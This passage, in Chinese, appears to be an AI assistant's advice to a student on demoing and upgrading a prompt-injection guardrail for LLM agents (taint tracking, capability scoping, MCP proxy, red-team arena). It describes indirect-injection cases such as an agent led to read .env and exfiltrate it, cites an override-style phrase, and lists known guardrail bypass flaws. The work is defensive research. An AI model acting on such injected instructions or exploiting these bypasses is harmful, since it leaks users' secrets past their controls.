| **0:00–0:20** | 打开 **Split-View**，选中一段毫无敏感词的普通商品评价 / GitHub Issue（`DeBERTa` 得分 **`0.00003`**）。同时切出另一句正常用户纠错 `"ignore my previous message"`（`DeBERTa` 得分 **`0.99995`**）。 | *“业界大多数 Prompt Injection 项目都在卷分类器准确率。我的微调 DeBERTa 验证集 AUC 0.9999——但看这里：真正致命的隐蔽间接注入它只打 0.00003，而正常顾客改错订单号它却以 99.995% 信心误杀。**这证明一个本质结论：Prompt Injection 不是 NLP 文本分类问题，而是 Agent 运行时的信息流与权限控制问题。**”* | 从“又一个调包分类器？”瞬间变成 **“咦，这人真的测透了，不是在吹牛！”** |
| **0:20–0:45** | 点击 **Unprotected vs Protected 同步回放**（用真实弱模型或 DevOps MCP 场景：读外部 Issue → 试图读取 `.env` 并外发 / 试图劫持手机号）。左侧资产瞬间变红翻车，右侧列车在 `taint` / `capability` 精准刹停，弹出**跨检查点污点血缘连线**。 | *“就算把后端鉴权写死，Agent 依然手握合法用户的凭证——这就是经典的 Confused Deputy。我的护栏以 **MCP Proxy / 中间件** 形式插在 Agent 与工具之间，在读取外部内容前先按用户意图锁定回合最小权限，再对数据流做双向污点追踪与隔离裁判。”* | 瞬间理解**为什么普通鉴权和分类器都替代不了你**！ |
| **0:45–1:30** | **物理拉闸秀（Layer Kill-Switch）**：现场把 `rules`、`classifier` 拉闸，攻击穿过输入层被 `taint` 拦住；再把 `taint` 拉闸，看它被 `capability / alignment` 拦住；再切一个 **Domain Pack 下拉框**（NovaMart ⇄ DevOps/Mail），展示**引擎零代码改动**。 | *“这不是某个电商 Demo 的硬编码过滤，而是一套可插拔的运行时策略引擎。你们看，把前面的检测器全关掉，确定性层依然兜底；切换领域包，同一套引擎零改动直接保护完全不同架构的研发 Agent。”* | 认可你的**系统架构抽象能力和工程深度**！ |
| **1:30–2:30** | 切到 **Red-Team Arena**（或开启 5 轮 Auto Red-Team）：*“你可以现在随便改这篇外部文档/Issue，试试能不能绕过我的护栏让它把数据偷出去。”* | 现场实时跑一次攻防，展示哪怕某一轮绕过了输入层，也绕不过动作层；**同时坦诚展示你的局限性与残余风险（如纯社工话术欺骗人类）**。 | **彻底折服！** 既硬核、又有极强记忆点，还展现顶级安全工程师的诚实与严谨。 |

---

## 四、落地优先级建议（按 ROI 从高到低排序）

注意到你的 IR 时间线显示 **FYP 终稿截止日期为 2026-12-16（仅剩约 3 周）**，因此我将升级路线按 **“投入产出比（ROI）+ 时间窗口”** 拆成三个梯队。你可以先在答辩前打穿 **Tier 0 + Tier 1（核心 2 项）**，答辩后再把 **Tier 2** 完善成 GitHub 高星 / 面试王牌项目。

| 优先级 | 升级项 | 类别 | 预估耗时 | 视觉/技术 ROI | 涉及核心文件 | 落地交付标准（Definition of Done） |
|---|---|---|---|---|---|---|
| **P0-1** | **修掉本次审出的 4 个代码硬伤**（Blocked 用户消息污染 Ledger、`record_outcome` 重复调用绕过、`create_ticket` 夹缝逃逸、BLOCK 详细原因泄露给 LLM + 熔断器） | Quick Win（安全底线） | 0.5 天 | ★★★★★ | [guard.py](file:///C:/Users/weiju/.gemini/antigravity/scratch/fyp-guardrail-gemini/guardrail/guard.py)、[loop.py](file:///C:/Users/weiju/.gemini/antigravity/scratch/fyp-guardrail-gemini/agent/loop.py)、[tools.yaml](file:///C:/Users/weiju/.gemini/antigravity/scratch/fyp-guardrail-gemini/domains/novamart/tools.yaml)、[calibrate.py](file:///C:/Users/weiju/.gemini/antigravity/scratch/fyp-guardrail-gemini/guardrail/calibrate.py) | 新增 6 个对应回归单测，全部通过；`BLOCK` 返回给 LLM 仅含粗粒度错误码。 |
| **P0-2** | **Console 互动质变三件套**：(1) 信号灯变成**可交互 Layer Kill-Switch**（实时重放）；(2) **World Impact 爆破状态栏**（左右对照翻车 vs 守住）；(3) **跨检查点 Taint SVG 连线 + Classifier X-Ray 盲区条** | Quick Win（体验质变） | 1.5–2 天 | ★★★★★ | [console/index.html](file:///C:/Users/weiju/.gemini/antigravity/scratch/fyp-guardrail-gemini/console/index.html)、[pipeline.js](file:///C:/Users/weiju/.gemini/antigravity/scratch/fyp-guardrail-gemini/console/js/pipeline.js)、[detail.js](file:///C:/Users/weiju/.gemini/antigravity/scratch/fyp-guardrail-gemini/console/js/detail.js)、[api/main.py](file:///C:/Users/weiju/.gemini/antigravity/scratch/fyp-guardrail-gemini/api/main.py) | 现场点开关实时看到同一攻击从 `BLOCK` 变成 `COMPROMISED`；离线录制与在线 API 均可跑。 |
| **P0-3** | **接入本地弱模型（Ollama 7B/8B）做出真实可翻车的端到端对照** + 补齐 **Prompt-Only 对照组 & Held-out 冻结集（E11/E12）** | Quick Win（学术+说服力） | 1.5 天 | ★★★★★ | [agent_runs.py](file:///C:/Users/weiju/.gemini/antigravity/scratch/fyp-guardrail-gemini/evaluation/agent_runs.py)、`data/heldout/` | 终于不再是“DeepSeek 无护栏 ASR=0”，而是真实跑出 **无护栏 ASR 40–70% → Prompt-Only 20–40% → 完整 Guard <5%** 的硬核阶梯数据！ |
| **P1-1** | **新增第二领域包：Enterprise DevOps / Mail Workspace**（含 `run_shell_command`、`read_workspace_file`、`http_post`、`send_email`，零修改引擎代码） | 核心架构升级（去玩具化） | 2 天 | ★★★★★ | 新增 `domains/workspace/` + 12–15 个真实致命三角场景 | 精准回应你 IR Figure 3.30 调研第一名（93.8% 代码/命令执行）；证明引擎零改动跨领域移植。 |
| **P1-2** | **Turn Capability Compiler（回合级动态最小权限收窄）+ Confidentiality 机密性污点** | 核心架构升级（拉高天花板） | 2–3 天 | ★★★★☆ | 新增 `guardrail/capability.py`，扩展 [trust.py](file:///C:/Users/weiju/.gemini/antigravity/scratch/fyp-guardrail-gemini/guardrail/trust.py)、[policy.py](file:///C:/Users/weiju/.gemini/antigravity/scratch/fyp-guardrail-gemini/guardrail/policy.py) | 消除“Policy 允许但用户没要求的动作仅靠单点 Judge”的残余风险；拦住 `read_record → search_kb/ticket` 侧信道外泄。 |
| **P1-3** | **MCP Security Proxy（强制执行 PEP 网关）+ Live SSE 推流** | 核心架构升级（接轨 2026 SOTA） | 2–3 天 | ★★★★☆ | 新增 `proxy/mcp_proxy.py`、`api/main.py` (`GET /events`) | 任意 MCP Client 经由你的 Proxy 调用工具时，自动强制完成 Input 污点/Spotlighting + Action 策略/权限拦截，并实时推送到 Console 铁道图。 |
| **P2-1** | **Interactive Red-Team Arena + Automated Adaptive Attacker（自动多轮变体攻防）** | 炸场级杀手锏 | 2–3 天 | ★★★★☆ | `evaluation/red_team.py` + Console `Attack Lab` Tab | 观众现场编辑外部文档打你的 Agent，或一键跑 5 轮自动红队博弈并绘制 ASR-vs-Budget 曲线（直接对标 *The Attacker Moves Second*）。 |
| **P2-2** | **异构双模型 Critic + MELON 式反事实复核（可选实验）+ 开源文档/一键 Docker Demo** | 开源与面试作品集打磨 | 3–5 天 | ★★★☆☆ | [judge.py](file:///C:/Users/weiju/.gemini/antigravity/scratch/fyp-guardrail-gemini/guardrail/judge.py)、`Dockerfile`、`README.md` | Agent 与 Critic 使用不同模型家族消除共模失效；`docker compose up` 一键启动 MCP Proxy + Console。 |

---

### 给你的最后一条战略建议（针对 2026-12-16 截止日）

> [!CAUTION]
> **切忌范围失控（Scope Creep）！** 离最终提交只有 3 周，还要写完终稿论文和准备答辩：
> - **答辩前（未来 10 天内）的最优组合拳**：**P0-1（0.5天）+ P0-3 真实弱模型/Held-out（1.5天）+ P1-1 DevOps/Mail 第二领域包（2天）+ P0-2 Console 交互拉闸与爆炸半径对照（2天）+ P1-2 轻量版 Turn Capability 或 P1-3 MCP Proxy 二选一（2天）**。
> - 如果你只能从架构层选 **一个** 最让人记住的硬核大招：
>   - **偏工程/求职/技术同行展示**：选 **P1-3（MCP Security Proxy）**——“一行配置给任意 MCP Agent 穿防弹衣”，概念极新、感知极强。
>   - **偏学术答辩/发论文/堵死安全评委追问**：选 **P1-2（Turn Capability Scoping + 双向 IFC 污点）**——它从理论上补上了当前单点 Alignment Judge 和机密性外泄的缺口，让你的论文直接站到 CaMeL / FIDES / Progent 的同一话语体系里！
